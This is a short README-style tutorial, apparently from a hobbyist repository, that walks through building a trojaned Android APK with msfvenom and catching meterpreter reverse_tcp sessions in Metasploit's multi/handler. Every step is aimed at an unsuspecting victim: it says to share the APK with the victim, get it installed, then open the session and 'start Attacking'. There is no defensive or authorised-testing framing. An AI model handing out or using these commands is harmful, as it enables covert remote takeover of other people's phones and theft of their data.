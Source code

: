 
### Step By Step Process To Create The Payload  :
**Run This command in Kali Terminal**
1. check The Kali Version
`uname -r`

2.  give Root permission
`sudo su ` 

Enter Password and get Root permission

3. Now Check your IP Address (please Connect with internet before Run Commad )
`ip address`

4. open Second Terminal Run this Code 
`msfvenom -p android/meterpreter/reverse_tcp LHOST=<your IP address> LPORT=<choose Any port Number Greater than 8500>> /home/kali/payload.apk`

you are created One Apk file with payload. Apk Path : Home>kali>payload.apk 

5. Now share This Apk To the Victim And Install On That mobile 

6. **Start Exploitation**

Run `msfconsole` and press Enter
Now wait for 1 min your Meta-sploit freamwork is Load

7. Run `use exploit/multi/handler` 

8. for Designing of Hacking
`set payload android/meterpreter/reverse_tcp`

9. Set Your IP and Victim Port

10. `set LHOST <Your ip Address>`

11. `set LPORT <your choosen Port >`

Now run This command for verify Both LHOST and LPORT  `show`

12. Now if your Payload not Working set EXit commad

13. Run `set ExitOnSession false`

14. 
**NOW RUN PAYLOAD**

`exploit -j`
Now Your Payload is successfull Work in Background OF victims Android

15.Now When Victim Install This Apk ,,  Session automatically Start..

16. Run `sessions -i` and see the **ID** of Active Session (Example iD: 1 , 2, 3....)
17.  Now Run `sesssion -i <ID>`  and start Attacking
18. For performing Attack Run `help` and All commands you can Apply for Attack

**Thanks for Visiting @Yuvrajchauhan457**











